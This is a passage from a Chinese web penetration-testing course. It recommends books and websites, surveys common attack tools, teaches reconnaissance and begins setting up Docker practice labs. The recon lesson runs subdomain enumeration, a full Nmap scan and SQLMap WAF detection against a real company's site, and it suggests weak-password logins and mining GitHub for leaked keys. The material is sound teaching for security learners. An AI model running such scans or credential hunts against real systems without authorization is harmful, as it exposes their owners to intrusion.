这种学习方法，前期以模仿为主，参考他们的学习方法、技术文章，把握行业技 术趋势；后期是在入门之后，有了一定的技术积累，就可以开始在前人的基础上 自主研究技术、创新技术，这是比较难的一个阶段，但突破后，你在技术上将会 有质的飞跃。
关注安全动态
技术发展非常迅速，一不留眼你就落后了，所以要避免闭门造车，比如诺基亚的 塞班、微软的Windows Mobile，现在都退出了历史舞台，如果你之前不关注这些， 还在埋头研究它们的安全性，那就有点浪费时间了。
你可以关注一些技术资讯网站、公众号、Twitter、Github、博客、RSS订阅集合， 国内外安全大会（工业界顶会：BlackHat、Defcon、CanSecWest、OffensiveCon， 学术界顶会：CCS、NDSS、Oakland S&P、USENIX Security），以及 CTF比赛等。 这些都可以帮你了解安全动态的途径。
在文末的“网站推荐”中，我已经整理一份清单，建议你采用 RSS订阅的方式关 注，手机上装个 RSS 订阅客户端，比如Inoreader、Feedly、深蓝阅读，一有更 新就可以立马感知到，非常方便。
学习资料清单
除了上面提到的书籍和相关资料，此处还做了一些补充，供你学习参考。
书籍清单
- 《JavaScript DOM 编程艺术》：https://item.jd.com/10603153.html
- 《JavaScript 高级程序设计》：https://item.jd.com/12958580.html
- 《PHP 和 MySQL Web开发》：https://item.jd.com/10059047.html
- 《黑客攻防技术宝典：Web实战篇》：https://item.jd.com/11020022.html
- 《白帽子讲 Web 安全》：https://item.jd.com/11483966.html
- 《Web 安全测试》：https://item.jd.com/10021008335997.html
- 《Web 前端黑客技术揭秘》：https://item.jd.com/11181832.html
- 《SQL 注入攻击与防御》：https://item.jd.com/12369984.html
- 网络安全从业者书单推荐：https://github.com/riusksk/secbook
网站推荐
- FreeBuf：https://www.freebuf.com
- 安全客：https://www.anquanke.com
- Seebug Paper：https://paper.seebug.org
- 安全 RSS 订阅：http://riusksk.me/media/riusksk_RSS_20190330.xml
- CTFTime Writeups：https://ctftime.org/writeups
- 安全脉搏：https://www.secpulse.com
- SecWiki：https://www.sec-wiki.com
- 玄武每日安全：https://sec.today/pulses
- 学术论文检索：https://arxiv.org/search/cs
- Exploit-db：https://www.exploit-db.com
- Github：https://github.com
- 信息安全知识库：https://vipread.com
- 先知社区：https://xz.aliyun.com
其他资料
- HTTP 教程：https://www.runoob.com/http/http-tutorial.html
- HTML 教程：https://www.quanzhanketang.com/default.html
- CSS 教程：https://www.runoob.com/css/css-tutorial.html
- JavaScript 教程：https://www.runoob.com/js/js-tutorial.html
- Vue.js 教程：https://www.runoob.com/vue2/vue-tutorial.html
- Vue.js中文文档：https://vuejs.bootcss.com/guide
- Node.js 教程：https://www.runoob.com/nodejs/nodejs-tutorial.html
- HackerOne Hacktivity：https://hackerone.com/hacktivity
- 乌云公开漏洞、知识库搜索：https://wooyun.x10sec.org
- 1000 个 PHP 代码审计案例：https://github.com/Xyntax/1000php
- 知道创宇研发技能表：https://blog.knownsec.com/Knownsec_RD_Checklist/index.html
武器库：常用的渗透测试工具
你好，我是赢少良。这一讲，我来介绍一些常用的 Web渗透测试工具。通常每个 安全人员都有自己熟练使用的一套工具，这样在实战中才能高效，也不用浪费时 间去自己重复造轮子。
白帽子最喜欢用什么安全工具？
2020 年的 HackerOne 黑客报告中，统计过白帽子们最喜欢用的软硬件工具。
图 1 白帽子最喜欢使用的工具统计图
从图中可以看到，89% 的白帽子都会使用 Burp Suite 这个 Web应用安全测试工 具，有 39% 会尝试自己写工具，第三名的 Fuzzers是模糊测试工具。再后面主 要是一些代理抓包工具、漏洞扫描器和调试器（用于调试二进制程序居多）。
从以上信息中我们也能了解到，涉及 Web渗透的常用工具集中在代理抓包工具 和漏洞扫描器上 。 Burp Suite两者兼具，还有丰富的插件，并集成了很多渗 透测试的常用功能，是手工挖掘漏洞的必备神器 。因此，成为白帽子的最爱也 在情理之中。
这一讲我收集整理了一些个人比较常用的工具，有一定的个人爱好偏向，你也可 以根据自己的喜好选择顺手的使用，并不必局限于我列举的工具。
这里我主要介绍常用的工具以及在使用上的一些技巧和心得，你可以自己动手安 装尝试一下。在未来的课程中，我会在合适的实践场景讲解相应工具的实战应用， 比如在“第04 讲”将介绍 Nmap，在“第 07 讲”和“第 08 讲”提到“SQL 注 入”时又会应用SQLMap。
我比较推荐 从资料的源头入手 ，哪怕是英文的原始资料，你自己认真阅读一 遍，肯定好过被别人嚼烂的东西。下面的工具我也会尽量标出原始技术内容来源， 此处不会过多详细地介绍每一样工具的使用，你可以参考文末列出相关的资料清 单，边操作边学习。
Burp Suite：集成化的 Web 应用测试工具
我们先来看看白帽子们最喜欢的 Web 应用安全测试工具：Burp Suite。
图 2 Burp Suite
Burp Suite分免费的社区版、收费的专业版和企业版。
- 社区版主要是一些代理抓包改包的基本功能
专业版则包含漏洞扫描器、插件商店、Burp Instruder（比如用来暴力破解账号）等功能。
专业版一年收费 399 美元，按当前汇率算，相当于 2637元，也并不便宜；
- 企业版更贵，要 3999 美元（相当于 26435元），主要增加了一些定期循环漏 洞扫描和 CI持续集成功能，具有更好的扩展性。
对个人而言，专业版就足够了。其实我觉得 Burp Suite的漏洞扫描功能一般， 漏洞发现能力并没有那么强 ，其检测结果仅作为参考。对于漏洞扫描，我更喜 欢使用稍后要介绍的几款漏洞扫描工具。
以前我做渗透测试时比较习惯用 FireFox，因为它有丰富的安全测试插件。现在 Chrome 市场占有率已经超过 70%，以前 FireFox 中很多优秀的插件也移植到了 Chrome 中，因此我现在基本只用 Chrome。
这里提到浏览器，是因为在使用 Burp Suite 前需要配置浏览器代理，这样才能 将HTTP/HTTPS 请求转发到 Burp Suite 上进行分析与测试。
在 Chrome的设置中搜索“代理”会让你选择“打开您计算机的代理设置”，如 下图所示：
图 3 Chrome 代理设置
打开之后你就可以设置 HTTP/HTTPS 代理为 Burp Suite 的对应端口，默认为 127.0.0.1:8080。下面两张图分别是系统和 Burp Suite 上的代理设置页面：
图 4 系统代理设置页面
图 5 Burp Suite 代理设置页面
如果每次使用都要进行这样的配置代理其实还挺麻烦的，毕竟有时也得正常地使 用浏览器上网。我在这里推荐个小技巧：你可以使用Chrome 上的插件“ Proxy SwitchyOmega ”来快速切换代理，如果你用的是FireFox，那可以使用 FoxyProxy 插件。
在 Chrome 应用商店中搜索“Proxy SwitchyOmega”并安装它，然后像下图这样 配置：
图 6 Proxy SwitchyOmega 配置
配置完成后你就可以在 Chrome 浏览器右上角的插件栏中点击“Proxy SwitchyOmega”插件图标，选择上面创建的“Burp Suite”情景模式开启代理， 若想关闭代理直接选择“系统代理”即可。
图 7 Proxy SwitchyOmega 快速代理展示
下图是代理成功后，Burp Suite 拦截到流量的效果图：
图 8 Burp Suite 代理成功
其他更详细的 Burp Suite功能，你可以参考Burp Suite Document和Burp Suite 实战指南这两份资料学习，此处不再展开。
Acunetix WVS
Acunetix WVS（Web Vulnerability Scanner）是我以前经常用的 Web漏洞扫描 器，也曾用它刷了不少国内 SRC 平台的漏洞。
图 9 Acunetix WVS
WVS 支持登录态扫描，可以登录账号访问需要权限的页面，从而爬取更多URL， 提高漏洞发现率 。这个功能很重要，有些网页的功能全都要求登录，如果没有 这一步设置，你什么也扫不到。不过现在很多扫描器也支持登录态扫描了。
这几年 WVS 也在不断地更新维护，它属于收费软件，一年 3,331.99美元（相当 于 22049 元），对企业来说可以接受。但 WVS的规则越做越烂，现在的版本扫 出来的漏洞大部分都是误报，参考价值不如以前。
关于 WVS 的具体使用，你可以参考 Acunetix WVS官方提供的使用文档。
Xray：Web 漏洞扫描器
随着 WVS 的没落，国内的长亭科技出了一款叫作 Xray的漏洞扫描器，现在国内 不少白帽子开始使用它。他们会自己开发一些自动化工具去爬虫，然后导入地址 到WVS 和 Xray扫描（参考资料：Xray_and_crwlergo_in_serve、 crawlergo_x_XRAY），在扫到漏洞后，微信会自动通知。
图 10 Xray
我在使用 Xray 的时候发现， Xray 的准确率要比 WVS高，但漏洞发现率不是 很高 ，经常扫完后报告是空的，而且 Xray的扫描速度很慢，还有一定优化的 空间。
Goby：基于网络空间测绘的漏洞扫描器
Goby是一款国内新出的安全扫描器，它基于网络空间测绘技术进行资产收集，也 就是先通过对目标网络的IT资产进行规则分析，建立知识库，在发生安全事件时 就能直接用于应急响应，这项功能比较适合企业内部。Goby属于免费的工具，且 跨平台支持 Windows、Linux 和macOS，界面不错，还提供了多个皮肤。
图 11 Goby
Goby有个比较实用的功能，那就是支持自定义规则的漏洞扫描框架 。它本身 也会收集一些产品的PoC（概念证明，常被用于验证是否存在漏洞，如下图所示）， 同时在外部曝光或自主挖掘到漏洞时，借助该框架添加规则，可以快速去扫描相 关资产是否存在漏洞， 对于企业应急和个人刷SRC 平台漏洞是一个神器 。
图 12 Goby 收集的 PoC
Goby 的使用可以参考官方文档中的内容。
SQLMap：SQL 注入检测与利用
SQLMap 无疑是 SQL 注入工具中的王者 。在 SQL注入漏洞检测与利用上， SQLMap提供了非常全面的功能，哪怕是一些漏洞无法检测到，许多白帽子仍习惯 在上面做二次开发，或者利用tamper 脚本来扩展。
图 13 SQLMap
我将在“第 06 讲”和“第 07讲”中详细介绍该工具的使用，此处不再赘述， 详细的使用方法可以从官网了解。
Nmap：网络扫描与主机检测
Nmap有界面版本和命令行版本，我比较喜欢使用命令行，因为可操作空间大一些。
图 14 Nmap 界面版本
图 15 Nmap 命令行版本
很多人只知道 Nmap可用于端口扫描和主机服务识别，但实际上它远不止如此。 Nmap提供的丰富脚本，大大扩展了它的功能，它可以探测弱口令，甚至是漏洞扫 描。Nmap的功能十分强大，需要你慢慢探索。
关于 Nmap详细的使用说明，你可以参考官方文档，在下一讲“信息收集：掌握 目标的一切信息”中，我还会提到Nmap。
Postman：模拟发包工具
虽然 Burp Suite功能强大，但有时会觉得开启代理麻烦，对于能在浏览器上直 接完成的，我一般都不开Burp Suite 操作。
Chrome上自带的开发者工具可以直接抓包查看：通过在网页右击，选择“检查” 即可打开；然后切换到“Network”标签页，操作网页后即可获取到网络请求包， 但它不支持拦截修改请求包。
图 16 Chrome 抓包
如果你想直接构造请求去发包，或者用来测试一些网络接口的调用，那使用 Postman 再适合不过了 。安装完 Postman 后，通过 Chrome标签栏的“应用” 即可打开 Postman。
图 17 Chrome “应用”标签
图 18 Postman
Postman 也支持网络拦截来修改数据包重发，但需要另外安装个插件“Postman Interceptor”，我感觉没有 Burp Suite 来得好用和强大，因此我很少用它。 关于Postman更多的使用方法，可以参考官方文档。
对于 Postman 与 Burp Suite， 轻量操作可以选择Postman ，比如单纯发包 测试接口，又懒得配置代理的操作； 如果你需要更多安全测试方面的功能 ， 比如改包、批量发包测试用来暴力猜解密码或遍历信息， 那么Burp Suite 无 疑是最佳的选择 。
HackBar：安全测试插件
HackBar 是一款非常经典的 Web 安全测试插件，最早出现在 FireFox浏览器中， 后来也被移植到了 Chrome。它可以用来构造 GET/POST请求，自带一些编码解码 工具，以及 XSS 和 SQL注入常用测试用例，能为你在实际测试中提供很大的便 利。
图 19 HackBar
HackBar 的功能跟 Postman 有些类似，都是用来模拟发包的工具， 但HackBar显然是为专业的安全人员开发的，而 Postman虽然有很多开发在用，但 常被用来测试一些网络 API 接口 。
HackBar使用非常简单，正如它简洁的界面一样，所有的功能都可以很快上手， 用几次基本就熟练了。无论是HackBar 还是Postman，你都可以试一下，选择自 己顺手的工具即可。不管什么工具，能够帮助你挖到漏洞的都是好工具。
NC（NetCat）：网络瑞士军刀
我习惯称 NC 为瑞士军刀，因为它简单易用，功能强大，在行业内非常流行。在 实际渗透测试中，我最常用的有两个功能：
- 监听端口以等待后门回连 ；
- 发包测试 ，有时请求包内容较多，可以放在一个文件里面直接提交（不局 限http/https 这种请求），其他任意端口都支持，所以它要比 postman 和 hackbar 这些发包工具的应用范围要广。
除此之外 NC还有其他功能，比如端口扫描、作为代理来端口转发数据，甚至可 以在两台主机之间搭建起聊天室。
图 20 NC
更多 NC 命令参数的使用，可以通过 man nc 命令来查看。
Metasploit：渗透测试平台
Metasploit在渗透测试中经常被使用到，它不是一个单纯的工具，而是一个集成 各种渗透测试工具的平台，上面有很多漏洞利用工具，还有免杀处理、后门生成 与留存、远程控制等很多强大的功能。
图 21 Metasploit
以前我经常用 Metasploit来辅助编写名为“内存破坏漏洞”的利用程序。 Metasploit在主机渗透，甚至是当前移动手机上的渗透测试都可以使用 ，所 以这里我非常推荐你去好好研究一下Metasploit 平台的应用。
国内外已经出版了很多本关于 Metasploit的书籍，你也可以直接阅读官方文档。
总结
这一讲我向你介绍了一些常用的渗透测试工具，它们也是我平常用得比较多的几 款工具，你可以多用用，挑选自己感觉比较顺手的工具。
这里没有详细介绍每一款工具的安装和使用，因为这些工具在网上都有很多资料， 我只对它们做一个简单的介绍，让你能了解它们。
我非常推荐去阅读 官方的第一手资料，它们经常保持更新，且资料说明也比较 全面，比二手资料要好很多 。本讲除了介绍一些常用工具外，更重要的是想向 你传递两个信息：
尽量阅读一手资料；多用搜索引擎查找相关资料学习。
除了本讲介绍的工具外，你还知道哪些好用的渗透测试工具呢？欢迎在留言区分享推荐。
下一讲，我将带你了解一些收集渗透目标相关信息的方法和工具，它是我们开展 渗透测试工作的第一步。
信息收集：掌握目标的一切信息
你好，我是赢少良。上一讲我介绍了一些常用的渗透测试工具，有些在这一讲中 就会用到。这一讲主要是想和你分享渗透目标的信息收集技术，它 在开始一项 渗透测试工作的前期工作中有着很重要的地位 ，因为这 决定了你能找到的攻 击面有多大，也是你能否成功渗透目标的关键 。
信息收集方法
根据收集方式的不同，我们可以将信息收集分为两类：主动收集和被动收集。下 面我先介绍一下这两个概念。
- 主动收集是指 通过扫描确认目标的操作系统和网络服务 ，为后续发现漏洞 提供信息帮助，但它可能引起目标的注意，或被记录下扫描行为。一些服务指 纹检测、网站爬虫都是主动收集的方式，它们直接向目标发起请求，在有防火 墙的情况下，可能会被拦截告警。
- 被动收集是指 在不接触目标的情况下，通过互联网搜索来收集目标遗留在网 络中的信息 。这样可以避免引起目标的警觉。网上很多人说的 公开来源情 报 （Open-Source Intelligence，OSINT，简称“开源情报”）正是需要被 动收集的信息，它是从公共资源中收集到的。
综上可以看出，主动收集与被动收集的主要区别就在于 收集信息的过程中是否 需要接触目标 。在实际渗透测试过程中，一般两种方法都会用上，以收集更多 有价值的信息。
在收集信息时，无论是主动还是被动，都建议使用小号，尤其是在一些社交平台 上的信息收集，小号可以避免行为暴露。
信息收集实践
关于信息收集的工具，你平常可以多关注一些开源工具。GitHub上有很多，遇到 好的工具可以下载收藏，避免临时找工具或者被迫手工操作，那会非常影响效率。
在操作系统 Kali 和Parrot中有相应的工具列表，你可以找到很多不错的工具。
下面我将介绍 6 个信息收集的方法，分别是
- 子域名与 IP收集
- 端口服务探测
- 网站指纹识别
- 旁站与 C 段查询
- WAF探测和敏感信息收集
子域名与 IP 收集
收集子域名和 IP常常是信息收集的开端，这对你摸清整个目标的资产起着很关 键的作用，它们直接决定了渗透目标范围的大小。当然，有时候渗透测试任务直 接限死子域名，这种情况下这一步就可以直接省略了。
在 GitHub 上有一个开源项目，叫bounty-targets-data，它会收集一些漏洞奖 励计划中的域名范围，并在持续更新，目前已经收集了2000 多个域名。对于喜 欢刷漏洞奖励平台的同学，bounty-targets-data确实是一份不错资源，它可以 开启循环扫描，不停地去扫这些有奖励计划的域名，运气好的话，可以挖到漏洞 拿奖金。
关于收集子域名的技术原理在《红蓝对抗之域名搜集方法总结》中有详细的介绍， 主要包括证书透明度、DNS查询、Whois 查询、备案网站、搜索引擎、暴力猜测 等多种方法实现。
收集子域名可以通过一些在线网站或者本地工具来收集，常用的工具或站点有 OneForAll、subDomainsBrute、subfinder、ESD、Amass、DNSDumpster 和 Subdomain Finder。
OneForAll在功能上非常集全，使用字典爆破、证书透明度、常规检查（域传 递、sitemap文件、robts 文件、内容安全策略 csp 等）、网络爬虫、DNS 数 据集、DNS查询、威胁情报平台、搜索引擎等多种方式，也支持多种文件格式 导出。OneForAll收集到的有效域名很多，但经常会有误报，速度也相对比较 慢。
使用示例如下：
python3 oneforall.py --target lagou.com run
 图 1：OneForAll
subDomainsBrute采用暴力猜解域名的方式，速度快、准确度高。但由于是字 典猜解方式，仍会存在一定的漏报。
 图 2：subDomainsBrute 运行效果图
 图 3：subDomainsBrute 爬取的域名结果图
同一域名有时会有指向多个 IP 地址情况，因为企业可能采用 CDN内容分发网 络，就近选择网络最好的节点服务器响应用户。因此，有时同一台机器访问同 一个域名时，会访问到不同的IP，比如 weixin.lagou.com 就是如此。
 图 4：同一个域名的不同 IP
subDomainsBrute 也会将同一域名指向的多个 IP 一并收集起来，但如果超过 10个 IP 就会放弃收集。
使用示例如下：
python3 subDomainsBrute.py lagou.com
subfinder的扫描速度很快，它支持很多第三方 API接口（需要配置），同时 支持多种输出格式，但subfinder 没有字典爆破域名的功能。
使用示例如下：
subfinder -d lagou.com
 图 5：subfinder
ESD支持域名爆破、DNS解析、域传递、搜索引擎、证书透明度等多种搜索方式， 还支持zoomeye、censys、fofa、shodan等网络空间搜索引擎的接口结果收集， 这个需要在配置文件中设置 key或者账密才能使用。
ESD 有时的搜索结果不太稳定，对同一域名的多次搜索可能会不一样，比如跑 lagou.com，一次跑出 27 个域名，一次跑出 67 个域名，差异很大。
使用示例如下：
esd -d lagou.com
 图 6：ESD
Amass是一款 OWASP出口的资产搜索工具，除了常规的域名收集方式，它还支 持搜索结果可视化，并能从很多网站和API 收集子域名。另外，它提供了一套 类似 Nmap的脚本引擎，支持用户自定义数据源以扩展搜索范围。它的扫描速 度非常慢，但能够收集到非常多的子域名信息。
以 lagou.com 为例，它共收集到了 40769个子域。这数据相当多了，不过里 面有不少是跳转到主页 lagou.com的，实际没有单独的子域网站，即不同域名 指向同一台服务器，或者是直接 302跳转到主页的情况。这些子域在网站扫描 时可以考虑去重，避免重复扫描。
使用示例如下：
amass enum -o out.txt -d lagou.com
 图 7：Amass
DNSDumpster可以在线搜索子域名以及相应的IP 地址，提供 xlsx 文件导出， 以及整个域名映射关系图、IP分布地图等信息，在展示和准确度上还是不错的。 它的搜索速度也很快，但就是子域收集相对少很多。
 图 8：DNSDumpster
Subdomain Finder支持在线搜索子域名以及相应的 IP地址。它的扫描速度很 快，若没有显示 IP则代表域名没有绑定有效的网络服务器，或者无法访问该 域名。在界面上，它直接提供“Check Status”功能来检测网站的访问状态。 该网站上还提供有“Private scan”功能，可以防止扫描时被记录。但它的不 足之处在于，扫描结果无法直接导出文件到本地。
 图 9：Subdomain Finder
以拉勾网（lagou.com）为例，我对上述工具的子域检测结果进行了统计对比， 得到的结果如下表所示：
| 工具 | 域名总数 | 可访问域名 | 扫描时长(秒) |
| Subdomain Finder | 69 | 66 | 3 |
| DNSDumpster | 10 | 10 | 10 |
| OneForAll | 127 | 101 | 142 |
| subDomainsBrute | 44 | 38 | 114` |
| subfinder | 57 | 49 | 30 |
| ESD | 67 | 58 | 195 |
| amass | 40778 | 38294 | 1260 |
图 10：不同工具的子域检测结果统计对比
可以看到，Amass 扫出的数据实在是太多了（大部分是直接跳转到 lagou.com主 页），其他工具的柱状数据会小得无法比较。因此，在画统计图的时候我去掉了 它。
图 11：子域检测结果统计图
我用得比较多的是 OneForAll 和 Subdomain Finder，在收集域名时则更喜欢用 Subdomain Finder + OneForAll + subfinder + Amass 的组合。像 Amass输出 太多了，它扫描和验证有效性的时间也比较长。
端口服务探测
在上一讲“ 01 | 武器库：常用的渗透测试工具 ”中我介绍了Nmap，用它来 扫描端口服务就足够了。那我们为什么要做端口服务探测呢？
近期 FBI 发布紧急警告称，SonarQube商业化源码审计系统被利用默认弱密码窃 取政府内部一些产品源代码。
安装 SonarQube 时会默认开启 9000 端口，默认的管理员账号密码均为admin。 攻击者在网站上扫描开放 9000 端口的服务器，若发现是 SonarQube就可以尝试 用 admin登录，如果能登录就可以窃取到上面的产品源码了。这是扫描端口服务 非常典型的应用场景。
再比如端口 3389用于远程桌面连接，如果发现了，也可以尝试用弱密码登录， 或者利用一些远程桌面漏洞去测试。
针对开放端口和服务识别的方式，在渗透测试过程可以有针对性地采取不同的测 试方法，虽然简单，但非常有效。
下面以探测拉勾网的端口服务为例，使用 Nmap 去探测：
$ Nmap -A lagou.com Starting Nmap 7.91 ( https://Nmap.org ) at 2020-11-15 12:55 CST Nmap scan report for lagou.com (117.50.36.103) Host is up (0.037s latency). Other addresses for lagou.com (not scanned): 117.50.39.99 106.75.118.232 Not shown: 993 closed ports PORT STATE SERVICE VERSION 80/tcp open http OpenResty web app server |_http-server-header: openresty |_http-title: Did not follow redirect to https://www.lagou.com/ 135/tcp filtered msrpc 139/tcp filtered netbios-ssn 443/tcp open ssl/http OpenResty web app server |_http-server-header: openresty |_http-title: Did not follow redirect to https://www.lagou.com/ | ssl-cert: Subject: commonName=*.lagou.com/organizationName=\xE5\x8C\x97\xE4\xBA\xAC\xE6\x8B\x89\xE5\x8B\xBE\xE7\xBD\x91\xE7\xBB\x9C\xE6\x8A\x80\xE6\x9C\xAF\xE6\x9C\x89\xE9\x99\x90\xE5\x85\xAC\xE5\x8F\xB8/stateOrProvinceName=\xE5\x8C\x97\xE4\xBA\xAC/countryName=CN | Subject Alternative Name: DNS:*.lagou.com, DNS:lagou.com | Not valid before: 2019-04-01T08:51:44 |_Not valid after: 2021-05-19T12:00:00 |_ssl-date: TLS randomness does not represent time | tls-alpn: | h2 |_ http/1.1 | tls-nextprotoneg: | h2 |_ http/1.1 445/tcp filtered microsoft-ds 593/tcp filtered http-rpc-epmap 4444/tcp filtered krb524 Service detection performed. Please report any incorrect results at https://Nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 24.95 seconds
-A参数开启端口扫描、系统检测、版本检测、脚本扫描及路由追踪，是一个比较 常用的参数。
从扫描结果可以看到，lagou.com开放端口：80、135、139、443、445、593、 4444 以及对应的服务名称。
网站指纹识别
网站指纹是 Web 服务组件在开发时留下的类型、版本等标记信息，包括 Web服 务器指纹、Web 运用指纹及前端框架指纹等。
除了前面用 Nmap 扫描端口和服务的方法，我们还可以通过前端网页和返回一些 HTTP头信息来判断网站使用的哪些开发框架、服务器、系统，在渗透测试时也可 以提供有针对性的测试思路。
我比较推荐 Chrome插件 Wappalyzer 。在你打开网站后，点击插件，按钮就 会弹出如下类似信息，网站的指纹信息一目了然。
图 12：Wappalyzer
还有一个在线检测网站也支持指纹检测：https://scan.top15.cn/web/，如下图所示：
图 13：ThreatScan
其他检测指纹的工具还有 WhatWeb、WPScan、JoomScan等，你可以自行搜索试用。
旁站与 C 段查询
有时测试的网站非常坚固，找不到任何漏洞，那我们就可以尝试 对“旁站”进 行渗透测试 。旁站即同一服务器上的其他域名网站，如果你能攻下该旁站，就 有机会间接拿到目标网站的权限。
还有另一种方法就是 查询 C 段 IP ，即同一内网段的服务器。比如 lagou.com的 IP 为 106.75.118.232，那它的 C 段 IP 为 106.75.118.1~106.75.118.255，通过攻下同一 C段的服务器，再间接渗透到目 标服务器。
无论是旁站还是 C段渗透方式，都是尝试从目标网站的旁路途径去间接渗透目标。 在这里我推荐几个在线查询旁站和C 段的网站，同时提供一些指纹检测信息。

图 14：The Web of WebScan
图 15：IP 查询
WAF 探测
当网站开启 WAF（Web防火墙）时，很多测试请求都会被拦截，导致无法正常扫 描。此时就要分析 WAF找到绕过的方法，否则很难挖到漏洞。在不知道的情况下， 还以为真的没有漏洞，其实有时只是被WAF 拦截了而已。不过就算挖到了漏洞， 利用起来也有一定的门槛。
因此，在测试前，若发现发包经常测试失败的话，除非网络不通，否则都建议先 探测下WAF。如果存在 WAF 就尝试寻找绕过的方法，再改造测试用例进行重试。
上一讲中介绍的 SQLMap 就支持 WAF 检测，上文介绍的TScan也支持，不过有时 会误报。这里我主要介绍一下 SQLMap 检测 WAF的方法，使用命令如下：
python sqlmap.py -u "http://www.lagou.com" --identify-waf --batch
上述代码中，–identify-waf 参数开启 WAF 检测，–batch参数不询问用户输 入，按默认执行。
SQLMap 既支持常见 WAF 的检测，也支持自己写脚本扩展检测能力。
敏感信息收集
2019 年 4月发生了一起大疆前员工泄密源码的事件，该名员工将大疆公司的在 用产品源码开放到GitHub上，其中还包含云服务器上登录密钥，导致他人可以登 录服务器查看上面存在的各种用户数据，最后被判刑。
图 16：大疆前员工泄密源码事件
从这件事也可以看到在网络上泄露的一些敏感信息，有时会直接导致服务器被入 侵，公司相关的知识技术产权被窃取，造成实际的经济财产损失。
因此，在授权的渗透测试过程中，我们要多方收集与目标相关的信息，包括 Google、GitHub、社交平台等多方渠道。我曾多次利用 GitHub找到一些账号密 码或密钥，从而获得授权测试的网站的最高权限，收集 GitHub相关的敏感信息 如下：
- Gitrob，https://github.com/michenriksen/gitrob；
- 码小六，https://github.com/4x99/code6；
- GitMonitor，https://github.com/Talkaboutcybersecurity/GitMonitor。
根据收集到的相关信息，我们还可以制作字典用来猜解一些相关账号和密码，此类的相关工具有：
- Wordhound，https://github.com/kurobeats/wordhound；
- BruteScrape，https://github.com/cheetz/brutescrape。
最后我再推荐几款综合能力较好的信息收集工具。
- Recon-NG是一款被动信息收集工具，它可以通过搜索获取 IP地址、地理位置、 用户、邮件地址、密码泄露或者其他敏感信息，最终生成一份完整报告。
图 17：Recon-NG
- iKy的界面很酷，它能够从Twitter、GitHub、Skype、Linkedin、Instagram等 社交平台上收集信息，但需要提前设置各平台上的 API KEY，可以输入一个邮 箱地址去搜索其上述平台上的关联信息，最后会以可视化效果展示出来，如下 图所示。
图 18：iKy
- discover综合使用了很多工具，包括dnsrecon、goofile、whois、recon-ng、 dnssy\Nikto等，它能够收集邮箱地址、雇员名字、主机信息、域名、IP等一 系列信息，最后提供 html 报告。
信息收集不局限于我上面举例的这些，有些你通过 Google搜索到的文档、图片、 敏感文件和目录等都可以。在后面的渗透测试过程中，说不定它们就能派上用场 了。
收集的信息不怕多，就怕不全 。
总结
这一讲我主要介绍了一些收集目标相关信息的常用方法和工具，包括域名和IP、 端口服务、网站指纹、旁站和 C段、WAF、敏感信息等信息的收集。但信息收集 不应局限于此，你可以根据渗透测试的需要，对扩展收集信息的范围，灵活变通。
收集信息之所以如此关键，是因为它能曝光出更多的攻击面，有助于我们寻找到 目标的短板，这常常决定渗透测试的成败。
前面讲的域名收集方法中介绍了不少工具，但扫出来的域名该如何批量检测是否 可访问呢？手工显然是不合理的，毕竟数量通常都很大。因此，我们需要自己动 手写个脚本。
你可以尝试写一个看看，比如用 Python 的 requests模块。但你要注意一下， 有些域名只允许 https 或 http的方式连接，需要把这些因素考虑进去。如果域 名较多，你还要考虑下多线程并发提高检测速度，同时还要做好域名的去重。比 如下列脚本的检测效果：
图 19：域名验证脚本
你可以尝试写一个域名验证脚本（Python、Shell……），如果遇到了什么问 题或者是有什么心得，欢迎在留言区分享和讨论。
下一讲，我将带你了解如何自己搭建用于练习漏洞攻防的靶场，避免你在他人网 站做测试，造成承担不必要的违法责任。
信息收集决定了你能找到的攻击面有多大
也决定了你能否成功渗透目标。
靶场：搭建漏洞练习环境
你好，我是赢少良。这一讲我来和你聊一聊“靶场”，也就是存在漏洞的实验环 境，为了方便你边学习边实践，我强烈建议你在学习前搭建好靶场环境。
本讲主要介绍几款用于学习 Web 漏洞的常见靶场，你可以直接跟着我介绍的操作方法边看边安装。
安装与使用 Docker 容器
以前我们搭建网站，需要在服务器依次安装 Apache、PHP、MySQL等应用，比较 烦琐，而且不同的源还有不同的应用版本，跟系统环境又可能存在兼容性的问题， 这就需要手动添加源地址，甚至是自己编译安装。
后来出现了 XAMPP、PHPStudy 等优秀的 PHP集成环境，可以非常便捷地安装。 但是安装好之后，如果要使用某些 PHP网站代码，我们仍然需要查找下载，再部 署上去。PHP 网站代码有可能与 PHP版本、系统环境存在兼容问题，或者需要额 外安装其他依赖库。若需要迁移服务器，那上述安装过程又得重来一遍。
到底有没有高效的安装方式呢？有，答案就是 Docker。
Docker 安装
本课程主要在 Ubuntu 系统下进行演示，在 Ubuntu 下可通过以下命令安装 Docker：
$ sudo apt-get update
$ sudo apt-get install \
apt-transport-https \
ca-certificates \
curl \
gnupg-agent \
software-properties-common
$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
$ sudo add-apt-repository \
"deb [arch=amd64] https://download.docker.com/linux/ubuntu \
$(lsb_release -cs) \
stable"
$ sudo apt-get update
$ sudo apt-get install docker-ce docker-ce-cli containerd.io
如果是 Windows 或 macOS系统，可以直接从官网下载安装包安装，它会自动识 别你当前的操作系统，并提供相应平台的下载地址。
安装完成后，可运行以下命令，若输出“Hello from Docker！”则代表安装成功：
$ sudo docker run hello-world Unable to find image 'hello-world:latest' locally latest: Pulling from library/hello-world 0e03bdcc26d7: Pull complete Digest: sha256:4cf9c47f86df71d48364001ede3a4fcd85ae80ce02ebad74156906caff5378bc Status: Downloaded newer image for hello-world:latest Hello from Docker! This message shows that your installation appears to be working correctly. To generate this message, Docker took the following steps: 1. The Docker client contacted the Docker daemon. 2. The Docker daemon pulled the "hello-world" image from the Docker Hub. (amd64) 3. The Docker daemon created a new container from that image which runs the executable that produces the output you are currently reading. 4. The Docker daemon streamed that output to the Docker client, which sent it to your terminal. To try something more ambitious, you can run an Ubuntu container with: $ docker run -it ubuntu bash Share images, automate workflows, and more with a free Docker ID: https://hub.docker.com/ For more examples and ideas, visit: https://docs.docker.com/get-started/
Docker 常用命令
安装完之后，我再介绍一些 Docker 的常用命令，基本是你在使用 Docker会用 到的。
安装 sqli-labs 靶场
sqli-labs 是一款用于学习 SQL 注入的靶场平台，覆盖了各种类型的 SQL注入， 题目共 75 道，按难度划分为 4 页。sqli-labs靶场的难度循序渐进，对于提高 SQL 注入实战能力有很好的帮助。sqli-labs靶场的项目开源地址为 https://github.com/Audi-1/sqli-labs。
